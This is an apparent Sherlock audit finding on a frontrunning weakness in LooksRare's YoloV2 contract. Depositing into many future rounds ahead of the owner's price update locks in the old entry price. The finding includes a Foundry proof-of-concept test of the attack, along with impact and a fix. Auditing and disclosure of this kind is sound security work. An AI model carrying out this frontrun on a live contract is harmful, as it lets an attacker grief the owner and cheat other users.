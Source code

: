 Acrobatic Flint Lobster

medium

# Frontrunning: Calls to `updateValuePerEntry(uint96)` may be frontrun to secure preferable `roundValuePerEntry`s.

## Summary

When a trusted [`owner`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L1499C22-L1499C40) makes a call to [`updateValuePerEntry(uint96)`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L792C5-L798C6), an attacker with a preference for the current [`valuePerEntry`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L197) may frontrun using [`depositETHIntoMultipleRounds(uint256[])`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312) in an effort to lock the current [`valuePerEntry`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L197) for an attacker-controlled number of rounds.

This can lead to griefing and a competitive advantage for attackers.

## Vulnerability Detail

When making a call to [`depositETHIntoMultipleRounds(uint256[])`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312), an account may deposit into `amounts.length - 1` future rounds.

This carries the implicit effect of initializing and caching the current price of a [`valuePerEntry`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L197) against one of the affected future rounds:

```solidity
function depositETHIntoMultipleRounds(uint256[] calldata amounts) external payable nonReentrant whenNotPaused {
    
    // ...

    for (uint256 i; i < numberOfRounds; ++i) {
        uint256 roundId = _unsafeAdd(startingRoundId, i);
        Round storage round = rounds[roundId];
        uint256 roundValuePerEntry = round.valuePerEntry;
        if (roundValuePerEntry == 0) {
@>          (, , roundValuePerEntry) = _writeDataToRound({roundId: roundId, roundValue: 0});
        }

        // ...
    }

    // ...

}
```

If an adversary with preferences for the current entry price were to detect an undesirable call to [`updateValuePerEntry(uint96)`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L792C5-L798C6) in the mempool, it would be possible for them to front run with [`depositETHIntoMultipleRounds(uint256[])`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312), which would have the effect of reserving the current [`valuePerEntry`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L197) for the number of rounds specified by the attacker:

```solidity
function test_sherlock_latchCurrentPrice() public {

    uint256 numberOfRounds = 100;
    uint256[] memory amounts = new uint256[](numberOfRounds);

    address _ATTACKER = address(0x69);

    // Prepare sufficient ether.
    vm.deal(_ATTACKER, numberOfRounds * 0.1 ether);

    for (uint256 i; i < numberOfRounds;) {
        amounts[i] = 0.1 ether;
        unchecked { ++i; }
    }

    /// @dev Deposit for a future number of rounds.
    vm.prank(_ATTACKER);
    yolo.depositETHIntoMultipleRounds{value: numberOfRounds * 0.1 ether}(amounts);

    for (uint256 i; i < numberOfRounds; i += 1) {

        (IYoloV2.RoundStatus status, , , uint40 cutoffTime, uint40 drawnAt, , address winner, uint96 roundValuePerEntry, , ) = yolo.getRound(i + 1);

        assertEq(roundValuePerEntry, 0.01 ether);

    }

    /// @dev The owner attempts to update the `roundValuePerEntry`.
    vm.prank(owner);
    yolo.updateValuePerEntry(1 ether);

    /// @dev We can assert the `roundValuePerEntry` has been increased.
    assertEq(yolo.valuePerEntry(), 1 ether);

    // However, the attacker managed to cache the older, cheaper entry price!
    for (uint256 i; i < numberOfRounds; i += 1) {

        (IYoloV2.RoundStatus status, , , uint40 cutoffTime, uint40 drawnAt, , address winner, uint96 roundValuePerEntry, , ) = yolo.getRound(i + 1);

        /// @notice The price is still locked.
        assertEq(roundValuePerEntry, 0.01 ether);

    }

}
```

Further, for excessively long arrays of [`amounts`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312) (such as those exploiting the zero-amount deposit bug raised separately, which permits arbitrarily long arrays at negligible cost), it would be possible to effectively nullify the effects of an owner's call to [`updateValuePerEntry(uint96)`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L792C5-L798C6) for an extensive period of time. In this scenario, we do not require the attacker to even have a particular preference for the entry price, or even anticipation of an update in the mempool - this is instead just a form of griefing.

The attack can be structured in the form of initializing each round with a minimum number of two participants, preventing the round from being cancelled through standard means, instead being closed out through the last resort [`cancel(uint256 numberOfRounds)`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L429).

## Impact

The most realistic impact of this is griefing of the protocol owner, who must explicitly [`cancel(uint256 numberOfRounds)`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L429) the specified rounds to attain the desired [`valuePerEntry`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L197), and for the users who may suffer increased gas fees to either [`rolloverETH(WithdrawalCalldata[],bool)`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L643) or [`withdrawDeposits(WithdrawalCalldata[])`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L598C14-L598C81).

Manual resolution of the issue will both degrade UX and incur transaction costs for affected users, considering their means of resolution is pull-payment based.

Additionally, since off-chain callers will use the public [`valuePerEntry()`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L197) to determine transaction value, it is possible for an attacker to induce information asymmetry between the intended amount of entries minted, versus the realized number of entries, which gives rise to a competitive advantage against unsuspecting users.

## Code Snippet

```solidity
/**
 * @inheritdoc IYoloV2
 */
function updateValuePerEntry(uint96 _valuePerEntry) external {
    _validateIsOwner();
    _updateValuePerEntry(_valuePerEntry);
}
```

## Tool used

Vim, Foundry

## Recommendation

Consider introducing a restriction on the maximum number of future rounds that can be deposited into i.e. place an upper bound on the length of [`amounts`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312) in a call to [`depositETHIntoMultipleRounds(uint256[])`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312).